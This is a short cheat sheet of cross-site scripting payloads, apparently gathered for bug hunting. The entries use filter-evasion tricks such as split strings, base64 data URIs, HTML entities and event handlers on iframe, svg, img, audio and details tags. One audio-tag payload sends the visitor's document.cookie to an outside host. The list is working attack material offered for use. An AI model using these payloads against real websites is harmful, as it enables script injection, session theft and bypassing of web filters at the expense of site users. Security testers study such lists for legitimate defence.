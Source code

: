 <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a">
<audio autoplay onloadstart=this.src='hxxps://msf.fun/?c='+document["cook"+"ie"]' src=x>
<img/src=q onerror='new Function`al\ert\`1\``'>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<svg onload\r\n=$.globalEval("al"+"ert()");>
[1].map(alert) 
(alert)(1)
<"><details/open/ontoggle="jAvAsCrIpT&colon;alert&lpar;/xss-by-tarun/&rpar;">XXXXX</a>
[1].find(confirm)
<svg/onload=self[`aler`%2b`t`]`1`>
%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E
'-[document.domain].map(alert)-'